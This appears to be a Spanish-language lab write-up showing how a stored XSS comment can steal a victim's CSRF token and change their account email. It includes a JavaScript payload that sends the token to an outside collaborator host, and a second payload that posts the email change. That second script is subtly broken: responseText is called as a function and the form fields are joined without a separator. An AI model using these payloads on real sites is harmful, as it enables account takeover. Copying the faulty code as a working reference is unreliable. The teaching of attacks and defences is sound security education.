 Nuestro objetivo es cambiar la dirección de correo electrónico del usuario afectado. Para ello, necesitamos primero obtener el token CSRF válido que protege dicha operación. Aprovechamos el XSS para hacer una petición al área de configuración de cuenta, capturar el contenido de la respuesta y extraer el token desde el HTML.

Una vez que tenemos el token, generamos una segunda petición desde el navegador de la víctima, enviando el token y la nueva dirección de correo. Como todo ocurre dentro de su propia sesión, la operación se realiza con éxito.

Este laboratorio demuestra cómo un XSS puede romper las defensas de tipo CSRF y subraya la importancia de que los tokens no solo estén presentes, sino que también estén correctamente aislados del acceso por parte de scripts inyectados.

En este caso, consolidamos la explotación automatizando todo el flujo: cuando una víctima visualiza el comentario malicioso, su navegador realiza una petición a su propia página de perfil, extrae el token CSRF del formulario oculto, y lo reutiliza inmediatamente para enviar una petición de cambio de correo electrónico sin que el usuario lo sepa.

Este enfoque permite realizar una acción sensible —como modificar información de cuenta— sin interacción directa por parte de la víctima, utilizando su sesión activa y su token legítimo.

La clase demuestra cómo XSS y CSRF pueden combinarse para romper la lógica de seguridad de muchas aplicaciones, y por qué es crucial implementar defensas adicionales como el uso de encabezados personalizados, políticas de contenido restrictivas (CSP), y el aislamiento del contenido generado por el usuario del contexto de ejecución del frontend.

------

Primeramente, debemos de ver la peticion que hace la funcionalidad de cammbio de contraseña, y se observa que se tiene un CSRF Token que viaja como parametro en la peticion

En el codigo fuente de la pagina, buscamos por CSRF y vemos que hay un campo oculto, con el valor del CSRF Token

Ahora, debemos obligar que el usuario nos envie su CSRF Token en una peticion por POST y con expresiones regulares podemos filtrar por ese valor del Token

Entonces creamos el Script

```javascript
<script>

    var req = new XMLHttpRequest();
    req.open('GET','/my-account',false); // Como el admin esta bajo el mismo dominio no es necesario
    req.send();

    var response = req.responseText;
    var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
    
    var req2 = new XMLHttpRequest();
    //req2.open('GET','https://burpsuite-collaborator.net?response='+btoa(response));
    //req2.open('GET','https://burpsuite-collaborator.net?Token='+btoa(csrf_token));
    req2.open('GET','https://burpsuite-collaborator.net?Token='+csrf_token);
    req2.send();

</script>

```

Ahora desde el Collaborator, ya tendriamos la respuesta en base64 de la peticion anterior y obtener el CSRF Token para crear el nuevo script que nos va a permitir cambiarle el correo al usuario administrador

```javascript
<script>

    var req = new XMLHttpRequest();
    req.open('GET','/my-account',false); 
    req.send();

    var response = req.responseText();
    var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
    
    var req2 = new XMLHttpRequest();
    req2.open('POST','/my-account/change-email',true);
    req2.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    var data = "email="+encodeURIComponent("markos@markos.com")+"csrf="+encodeURIComponent(csrf_token); 
    req2.send(data);

</script>

```

